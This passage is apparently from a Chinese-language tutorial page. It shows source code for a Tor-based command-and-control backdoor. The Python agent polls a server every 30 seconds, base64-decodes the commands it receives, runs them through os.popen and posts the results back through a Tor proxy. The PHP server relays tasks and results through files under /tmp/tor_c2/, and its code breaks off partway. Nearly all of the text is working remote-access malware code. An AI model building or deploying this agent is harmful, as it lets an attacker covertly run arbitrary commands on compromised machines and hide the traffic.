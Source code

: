 ```python
        return resp.text

    @staticmethod
    def exec_cmd(cmd: str) -> str:
        exec_res = os.popen(cmd)
        return exec_res.read()

    def put_exec_res(self, exec_res: str) -> None:
        data = {
            'identity': 'agent',
            'action': 'put',
            'data': exec_res
        }
        try:
            resp = requests.post(url=self.url, proxies=self.proxy, data=data, timeout=30)
        except Exception:
            print("[!] ERROR: Can not connect to TOR.")
            return

    def run(self):
        while True:
            sleep(30)
            task = self.get_task()
            if task and task != 'FAILED':
                try:
                    exec_res = self.exec_cmd(base64.b64decode(task).decode('utf-8'))
                except Exception:
                    continue

                self.put_exec_res(base64.b64encode(exec_res.encode('utf-8')).decode('utf-8'))
            else:
                print(f"[!] WARNING: Server return {task}")
        

if __name__ == '__main__':
    agent = Agent()
    agent.run()

```

server 代码:

```php
<?php
    error_reporting(E_ERROR);
    
    $identity = $_POST["identity"];
    $action = $_POST["action"];
    $data = $_POST["data"];

    $task_file_path = "/tmp/tor_c2/task";
    $exec_res_file_path = "/tmp/tor_c2/exec_res";
    $base_dir = "/tmp/tor_c2/";

    if(!is_dir($base_dir)){
        mkdir($base_dir, 0777, true);
    }

    if ($identity === "client"){
        if ($action === "put" and isset($data)){
            file_put_contents($task_file_path, $data);
            echo "SUCCESS";
        }
        elseif ($action === "get"){
```